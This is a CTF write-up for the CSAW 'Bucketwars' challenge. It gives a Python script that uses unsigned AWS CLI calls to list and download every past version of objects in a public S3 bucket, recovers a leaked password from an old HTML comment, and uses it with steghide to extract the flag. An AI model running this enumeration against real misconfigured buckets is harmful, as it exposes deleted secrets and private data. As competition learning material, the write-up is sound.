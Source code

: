 # Writeup for Bucketwars challenge of CSAW CTF 

The bucket url can be found by triggering any error ike 404.


Firstly,after some thinking the hint "we don't make mistakes in these parts" could be pointing towards the concept of **versioning** in Amazon S3 buckets. 
In hindsite the other endpoints had text which hinted towards versioning as well.

So we run a script to fetch the version list and then all the older version files as well from the bucket using the filenames from the versions file obtained:

```
from subprocess import check_output
import json

BUCKET_NAME = "bucketwars.ctf.csaw.io"


def getFiles():
    cmd_output = check_output(
        f'aws s3api list-object-versions --no-sign-request --bucket {BUCKET_NAME} --prefix "" --output json', shell=True)

    return json.loads(cmd_output)["Versions"]


def getFile(file):
    filename, VersionId = file["Key"], file["VersionId"]

    try:
        output_filename = f"{filename.split(".")[0]}_{VersionId.strip()}.{
            filename.split(".")[1]}"
    except IndexError:
        output_filename = f"{filename}{VersionId}"

    check_output(
        f"aws s3api get-object --no-sign-request --bucket {BUCKET_NAME} --key {filename} --version-id {VersionId} {output_filename}", shell=True)

    print(file["LastModified"], f"""{
          int(file["Size"])/1000} KB""", output_filename, sep="\t")


# files = json.loads(open("versions.json").read())["Versions"]
files = getFiles()

print(f"Pulling [{len(files)}] files")
print("Timestamp\tSize\tFilename_VersionId")

for file in files:
    getFile(file)
	
	```

In one of the version files we get this comment:

```
    Oh it can't be
    <!-- Note to self: be sure to delete this password: versions_leaks_buckets_oh_my --> 
```
And we find a image in a previous version of the v1 endpoint(index_v1_t6G6A20JCaF5nzz6KuJR6Pj1zePOLAdB.html) and whats different about this is it was stored in another bucket and not in the same provider as the other images.
Running steghide on the image with the above password gives the flag.